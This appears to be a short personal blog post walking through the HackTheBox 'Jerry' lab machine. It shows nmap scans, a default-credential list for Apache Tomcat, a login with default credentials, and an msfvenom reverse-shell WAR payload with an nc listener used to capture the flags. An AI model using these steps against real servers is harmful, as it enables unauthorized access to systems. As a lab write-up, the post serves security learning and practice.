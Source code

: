 ```yaml
---
title: "Jerry HTB"
date: 2024-07-16T16:38:48-07:00
draft: false
---
```


This is a test post I want to explore how some things translate fom my Obsidian volt with minamal edits. 

```sh
 IP=10.10.10.95

nmap -Pn -p- -oN nmap-p $IP --min-rate=1000

PORT     STATE SERVICE
8080/tcp open  http-proxy


 nmap -Pn -p 8080 -sCV -v -oN nmap-sCV $IP

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

Getting possible default passwords with 
```sh
 cp ~/SecList/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt .
 cat tomcat-betterdefaultpasslist.txt
admin:
admin:admanager
admin:admin
ADMIN:ADMIN
<snip>
``` 

![tomcat password](/old/credds-jerry.png)

With a field login attempt with `admin:admin` with burp suite to get the formatting for hydra we got an 403 page with this information in it. So next tried `tomcat:s3cret` and logged in.

looking at the file upload we see that it only takes war files so the best way i am finding is to 

````sh
msfvenom -p java/shell_reverse_tcp lhost=tun0 lport=4321 -f war -o pwn.war

# and 

nc -lvnp 4321

# we could also use metainterpritor 

````

then opend the page and in the nc window we get 
```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
700<snip>d00

root.txt
04a<snip>90e

```
